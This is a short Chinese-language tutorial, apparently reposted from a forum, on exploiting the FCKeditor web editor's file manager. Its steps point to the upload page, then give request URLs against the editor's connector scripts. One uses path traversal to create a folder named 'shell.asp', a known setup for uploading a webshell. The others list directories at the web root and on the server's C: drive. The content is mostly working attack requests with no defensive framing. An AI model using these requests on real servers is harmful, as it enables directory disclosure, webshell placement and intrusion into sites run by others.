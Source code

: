 # 四、FCKeditor 列目录

> 原文：[https://www.zhihuifly.com/t/topic/2937](https://www.zhihuifly.com/t/topic/2937)

# 1、FCKeditor/editor/fckeditor.html

FCKeditor/editor/fckeditor.html不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

# 2、根据xml返回信息查看网站目录

```
http://www.-sec.org/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp 
```

# 3、获取当前文件夹

```
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/ 
```

# 4、游览c盘

```
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/ 
```